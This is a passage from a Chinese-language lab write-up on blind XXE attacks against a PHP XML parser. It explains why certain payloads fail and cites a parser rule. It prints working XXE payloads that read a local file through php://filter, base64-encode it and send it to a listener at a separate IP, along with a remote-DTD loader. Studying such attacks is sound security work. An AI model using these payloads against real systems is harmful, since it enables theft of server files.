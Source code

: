 POST数据

```dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE payload [
<!ENTITY % remote SYSTEM "http://127.0.0.1:8888/xxetest.dtd">
%remote;%int;%send;
]>
<payload>1</payload>
```

尽管php在报错

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241106151718676.png)

还是成功回显了

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241106151621941.png)



接下来列一些实验中错误的payload，并说明原因

#### 试图将xxetest.dtd直接POST过去

直接省略remote实体

```dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE payload [
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///C:/Users/Administrator/Desktop/test.txt">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://172.18.240.1:8085/?p=%file;'>"
%int;%send;
]>
<payload>1</payload>
```

报错：`PEReferences(Parameter-entity) forbidden in internal subset in Entity`

禁止在内部Entity中引用参数实体

int没用SYSTEM关键字，是参数实体的同时也是内部实体，用`%int;%send;`引用了内部实体的参数实体，所以报错。用外部实体去包含，就能成功加载了

#### 试图省略int标签

省略int标签呢？

```dtd
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///C:/Users/Administrator/Desktop/test.txt">
<!ENTITY % send SYSTEM 'http://172.18.240.1:8085/?p=%file;'>
```

结果发现%file并没有解析

https://www.vsecurity.com//download/papers/XMLDTDEntityAttacks.pdf

第10页明确了，XML解析器不会解析同级参数实体的内容。
